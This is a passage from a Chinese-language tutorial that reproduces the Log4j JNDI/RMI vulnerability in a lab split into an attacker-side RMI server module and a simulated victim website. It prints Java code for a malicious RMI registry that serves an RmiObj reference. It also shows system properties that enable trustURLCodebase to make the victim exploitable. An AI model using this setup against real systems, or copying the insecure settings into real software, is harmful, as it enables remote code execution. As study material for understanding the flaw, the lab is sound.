 ## 重现真实场景漏洞

在log4j-all模块中，我们的所有程序都是在同一个代码模块中的，也就是都在同一个项目中，真实的环境是：RMI服务运行在骇客的本地电脑或者自己的服务器上，而远程站点会运行在远程服务器上。接下来，我们就开始模拟一个更加贴合真实环境的场景。

### 模拟真实场景项目说明

为了模拟真实场景，这里，我将log4j-all模块继续拆分成log4j-rmi模块和log4j-website模块，其中，log4j-rmi模块模拟运行在骇客本地或自己服务器上的RMI服务，而log4j-website模块模拟远程站点。

![2022-05-30-007](https://binghe.gitcode.host/assets/images/hack/log4j/2022-05-30-007.png)

### log4j-website模块代码分析

在log-website模块中的代码比较简单，整体上在resources目录下有一个log4j2.xml文件，内容与log4j-all模块的log4j2.xml文件内容相同。在log-website模块的`io.binghe.log4j`包中存在一个Log4jDemo类，代码也与log4j-all模块中的Log4jDemo类的代码基本相同（有稍许不同）。这里，为了模拟远程站点一般部署在远程服务器上，这里将模拟远程站点的Log4jDemo类单独拆分成一个Maven模块工程。log4j-website模块代码结构如下所示。

![2022-05-30-008](https://binghe.gitcode.host/assets/images/hack/log4j/2022-05-30-008.png)

**注意：在log-website模块中的Log4jDemo类的main()方法中会新增如下两行代码。**

```java
System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
```

好了，这就是在log-website模块下模拟的远程站点的Log4jDemo类。

### log4j-rmi模块代码分析

我们将log4j-all模块中模拟骇客本地RMI服务的RmiObj类和RmiServer类拆分到了log4j-rmi模块。log4j-rmi模块代码结构如下所示。

![2022-05-30-009](https://binghe.gitcode.host/assets/images/hack/log4j/2022-05-30-009.png)



其中，RmiObj类与log4j-all中的RmiObj类相同。而RmiServer类比log4j-all模块中的RmiServer类有稍许不同。我们来看下在log4j-rmi模块中的RmiServer类，如下所示。

```java
/**
 * @author binghe (公众号：冰河技术)
 * @version 1.0.0
 * @description 模拟漏洞的RMIServer
 */
public class RmiServer {

    public static void main(String[] args){
        try{
            LocateRegistry.createRegistry(1099);
            Registry registry = LocateRegistry.getRegistry();

            System.out.println("RMI Listener 1099 port");
            Reference reference = new Reference("RmiObj", "RmiObj", null);

            ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
            registry.rebind("test", referenceWrapper);

        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```
